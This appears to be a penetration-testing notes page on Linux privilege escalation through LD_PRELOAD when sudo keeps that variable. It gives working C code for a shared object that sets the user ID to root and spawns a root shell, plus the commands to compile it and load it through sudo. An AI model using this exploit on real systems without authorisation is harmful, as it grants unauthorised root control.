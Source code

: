 # LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

## <mark style="color:red;">Limitations</mark>

LD\_PRELOAD will not work if the real user ID is different from the effective user ID. sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

List the programs your user is allowed to run via sudo -l

{% hint style="info" %}
Note that the env\_keep option includes the LD\_PRELOAD environment variable.
{% endhint %}

![](../../../../.gitbook/assets/env1.png)

## <mark style="color:red;">Exploitation</mark>

Create a file (preload.c) with the following contents:

`#include <stdio.h>`\
`#include <sys/types.h>`\
`#include <stdlib.h>`\
`void _init() {`\
`unsetenv("LD_PRELOAD");`\
`setresuid(0,0,0);`\
`system("/bin/bash -p");`\
`}`

Compile preload.c to preload.so:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

![](../../../../.gitbook/assets/env2.png)
